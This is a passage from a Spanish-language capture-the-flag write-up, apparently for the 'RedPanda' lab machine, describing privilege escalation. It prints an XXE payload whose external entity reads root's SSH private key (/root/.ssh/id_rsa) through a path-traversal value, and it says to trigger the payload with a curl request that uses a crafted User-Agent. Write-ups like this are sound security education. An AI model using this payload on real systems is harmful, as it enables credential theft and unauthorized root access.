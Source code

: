 
A continuación crearemos en `/tmp` o `/home/wookdenk/` un archivo xml que apunte a la 

`id_rsa` de root, con el nombre definido en la imagen más _creds.xml que es lo suma el 

archivo que encontramos osea `test_creds.xml`.



![list](/assets/img/redpanda/Kali-2022-09-02-02-21-58.png){:.lead width="800" height="100" loading="lazy"}

***

```php
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/images.jpeg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

En test_creds.xml.
{:.note title="Attention"}

***

Para este momento debemos tener la imagen y el .xml en el servidor lo que sigue es hacer un curl 

con el formato que vimos en el archivo como User-Agent.


![list](/assets/img/redpanda/Kali-2022-09-02-02-28-02.png){:.lead width="800" height="100" loading="lazy"}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 